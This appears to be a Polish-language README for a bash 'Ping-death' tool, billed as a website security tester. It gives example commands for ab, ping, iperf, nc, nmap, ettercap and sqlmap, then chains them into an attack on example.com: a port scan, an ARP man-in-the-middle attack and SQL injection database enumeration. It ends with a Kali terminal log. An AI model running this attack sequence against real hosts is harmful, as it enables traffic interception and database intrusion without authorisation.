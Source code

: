 Opis Programu:
Program jest narzędziem napisanym w języku bash, służącym do testowania stanu i bezpieczeństwa stron internetowych. Wykorzystuje popularne narzędzia takie jak Apache Bench, ping, iperf, nc, nmap, ettercap i sqlmap do przeprowadzania różnorodnych testów, takich jak test obciążenia, test ping, monitorowanie wydajności sieciowej, sprawdzanie dostępności portów, skanowanie podatności, atak typu Man-in-the-Middle oraz atak typu SQL injection.

Oto przykładowe komendy dla każdego z narzędzi używanych w programie:

1. **Apache Bench (ab)**:
   ```bash
   ab -n 100 -c 10 http://example.com/
   ```

2. **Ping**:
   ```bash
   ping -c 5 google.com
   ```

3. **Iperf**:
   ```bash
   iperf -c 192.168.1.100 -t 10 -i 1
   ```

4. **Netcat (nc)**:
   ```bash
   nc -zv example.com 80
   ```

5. **Nmap**:
   ```bash
   nmap -A 192.168.1.1
   ```

6. **Ettercap**:
   ```bash
   ettercap -TqM arp:remote /192.168.1.100/ //
   ```

7. **Sqlmap**:
   ```bash
   sqlmap -u "http://example.com/login.php?user=admin&password=123" --dbs
   ```

Oczywiście, oto przykład wykorzystania wszystkich narzędzi dla hosta "example.com":

1. Najpierw skanujemy podatności hosta "example.com" za pomocą Nmap:
```
nmap example.com
```

2. Następnie przeprowadzamy atak typu Man-in-the-Middle na hosta "example.com" za pomocą Ettercap:
```
ettercap -T -q -M arp:remote /example.com/ //
```

3. Po zakończeniu ataku możemy wykonać atak typu SQL injection na stronie internetowej "example.com" za pomocą SQLmap:
```
sqlmap -u "http://example.com/page.php?id=1" --dbs
```

. oczywiście jest więcej może musisz się zapoznać z programem .

#instalacia 


(venv)─(root㉿kali)-[~]
└─# git clone https://github.com/Adminek01/Ping-death
Cloning into 'Ping-death'...
remote: Enumerating objects: 36, done.
remote: Counting objects: 100% (36/36), done.
remote: Compressing objects: 100% (34/34), done.
remote: Total 36 (delta 7), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (36/36), 16.40 KiB | 342.00 KiB/s, done.
Resolving deltas: 100% (7/7), done.

┌──(venv)─(root㉿kali)-[~]
└─# ls
https-security-checker  Ping-death  reinstall.sh  -SecurityScanner.pentest

┌──(venv)─(root㉿kali)-[~]
└─# cd Ping-death

┌──(venv)─(root㉿kali)-[~/Ping-death]
└─# ls
ping.sh  README.md

┌──(venv)─(root㉿kali)-[~/Ping-death]
└─# ping -h

Usage
  ping [options] <destination>

Options:
  <destination>      DNS name or IP address
  -a                 use audible ping
  -A                 use adaptive ping
  -B                 sticky source address
  -c <count>         stop after <count> replies
  -C                 call connect() syscall on socket creation
  -D                 print timestamps
  -d                 use SO_DEBUG socket option
  -e <identifier>    define identifier for ping session, default is random for
                     SOCK_RAW and kernel defined for SOCK_DGRAM
                     Imply using SOCK_RAW (for IPv4 only for identifier 0)
  -f                 flood ping
  -h                 print help and exit
  -H                 force reverse DNS name resolution (useful for numeric
                     destinations or for -f), override -n
  -I <interface>     either interface name or address
  -i <interval>      seconds between sending each packet
  -L                 suppress loopback of multicast packets
  -l <preload>       send <preload> number of packages while waiting replies
  -m <mark>          tag the packets going out
  -M <pmtud opt>     define path MTU discovery, can be one of <do|dont|want|probe>
  -n                 no reverse DNS name resolution, override -H
  -O                 report outstanding replies
  -p <pattern>       contents of padding byte
  -q                 quiet output
  -Q <tclass>        use quality of service <tclass> bits
  -s <size>          use <size> as number of data bytes to be sent
  -S <size>          use <size> as SO_SNDBUF socket option value
  -t <ttl>           define time to live
  -U                 print user-to-user latency
  -v                 verbose output
  -V                 print version and exit
  -w <deadline>      reply wait <deadline> in seconds
  -W <timeout>       time to wait for response

IPv4 options:
  -4                 use IPv4
  -b                 allow pinging broadcast
  -R                 record route
  -T <timestamp>     define timestamp, can be one of <tsonly|tsandaddr|tsprespec>

IPv6 options:
  -6                 use IPv6
  -F <flowlabel>     define flow label, default is random
  -N <nodeinfo opt>  use IPv6 node info query, try <help> as argument

For more details see ping(8).

┌──(venv)─(root㉿kali)-[~/Ping-death]
└─#